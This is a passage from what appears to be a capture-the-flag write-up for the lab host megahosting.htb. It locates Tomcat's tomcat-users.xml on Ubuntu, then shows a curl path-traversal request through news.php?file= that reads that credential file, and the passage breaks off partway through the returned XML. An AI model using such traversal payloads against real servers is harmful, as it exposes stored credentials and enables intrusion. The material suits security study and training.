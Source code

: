 Let's check the files list for `tomcat9` for ubuntu:
[https://packages.ubuntu.com/focal/all/tomcat9/filelist](https://packages.ubuntu.com/focal/all/tomcat9/filelist)

```
/etc/cron.daily/tomcat9
/etc/rsyslog.d/tomcat9.conf
/etc/tomcat9/policy.d/01system.policy
/etc/tomcat9/policy.d/02debian.policy
/etc/tomcat9/policy.d/03catalina.policy
/etc/tomcat9/policy.d/04webapps.policy
/etc/tomcat9/policy.d/50local.policy
/lib/systemd/system/tomcat9.service
/usr/lib/sysusers.d/tomcat9.conf
/usr/lib/tmpfiles.d/tomcat9.conf
/usr/libexec/tomcat9/tomcat-start.sh
/usr/libexec/tomcat9/tomcat-update-policy.sh
/usr/share/doc/tomcat9/README.Debian
/usr/share/doc/tomcat9/changelog.Debian.gz
/usr/share/doc/tomcat9/copyright
/usr/share/tomcat9-root/default_root/META-INF/context.xml
/usr/share/tomcat9-root/default_root/index.html
/usr/share/tomcat9/default.template
/usr/share/tomcat9/etc/catalina.properties
/usr/share/tomcat9/etc/context.xml
/usr/share/tomcat9/etc/jaspic-providers.xml
/usr/share/tomcat9/etc/logging.properties
/usr/share/tomcat9/etc/server.xml
/usr/share/tomcat9/etc/tomcat-users.xml
/usr/share/tomcat9/etc/web.xml
/usr/share/tomcat9/logrotate.template
/var/lib/tomcat9/conf
/var/lib/tomcat9/logs
/var/lib/tomcat9/work
```

So it's seems ubuntu mapped the files differently than the apache defaults,
so it won't be `$TOMCAT_HOME/conf/tomcat-users.xml` but
`$TOMCAT_HOME/etc/tomcat-users.xml`.

```xml
$ curl 'http://megahosting.htb/news.php?file=../../../../../../../usr/share/tomcat9/etc/tomcat-users.xml'
<?xml version="1.0" encoding="UTF-8"?>
<!--
  Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
<!--
```